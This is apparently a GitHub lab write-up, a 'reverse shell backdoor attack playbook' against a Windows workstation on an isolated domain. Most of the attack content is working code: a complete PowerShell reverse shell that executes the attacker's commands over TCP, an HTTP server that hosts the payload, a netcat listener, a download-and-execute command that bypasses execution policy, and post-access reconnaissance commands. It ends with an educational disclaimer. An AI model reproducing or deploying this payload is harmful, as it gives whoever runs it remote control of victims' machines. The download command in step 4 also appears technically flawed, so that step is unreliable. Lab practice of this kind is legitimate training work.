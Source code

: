 
# Reverse Shell Backdoor Attack Playbook

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective

The goal of this exercise is to:
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

The first step in the attack was to create the malicious PowerShell script (`malicious.ps1`) that would establish a reverse shell back to the attacker's Kali Linux machine.

The script creates a TCP connection to the attacker's IP (`192.168.20.30`) on port `4444`, allowing the attacker to execute commands on the target machine. The code is as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, the attacker needed to serve it to the victim machine. This was done by using a simple HTTP server on Kali Linux to host the malicious script:

```bash
python3 -m http.server 80
```

This command starts a web server on port `80` of Kali Linux, making the malicious script accessible to the victim.

### 3. **Start Listener on Kali Linux**

Next, the attacker needs to listen for an incoming connection from the reverse shell. This was done using Netcat (`nc`) on Kali Linux:

```bash
nc -lvnp 4444
```

This command listens on port `4444` and waits for a connection from the victim’s machine once the reverse shell script is executed.

### 4. **Victim Downloads and Executes the Malicious Payload**

The attacker then used the following PowerShell command to force the victim to download and execute the malicious payload:

```powershell
powershell -ExecutionPolicy Bypass -File "http://192.168.20.30/malicious.ps1"
```

This command bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to the attacker’s machine.

### 5. **Gaining Access to the Windows Workstation**

Once the malicious PowerShell script was executed on the victim’s machine, the reverse shell successfully connected to the attacker’s machine. The attacker now had remote access to the Windows workstation and could run commands on it.

### 6. **Execute Commands on the Target Machine**

After establishing the reverse shell, the attacker could run various commands to gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```

These commands helped the attacker confirm the identity of the user, gather information about the system, and identify potential targets for further exploitation.

## Conclusion

In this project, the attacker:

1. **Created Malware**: A malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell backdoor.
2. **Made the Victim Download the Malware**: The attacker used a simple HTTP server to serve the payload and a PowerShell command to make the victim download and execute the script.
3. **Gained Access to the Windows Workstation**: The reverse shell connected back to the attacker’s machine, giving them full remote control over the victim’s system.

With this access, the attacker could now run arbitrary commands, escalate privileges, maintain persistence, and continue exploiting the system.

## Disclaimer

This project is intended for educational purposes only. It demonstrates a common attack technique used in penetration testing to simulate how an attacker might gain remote access to a target system. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before conducting any form of penetration testing or attack simulation.
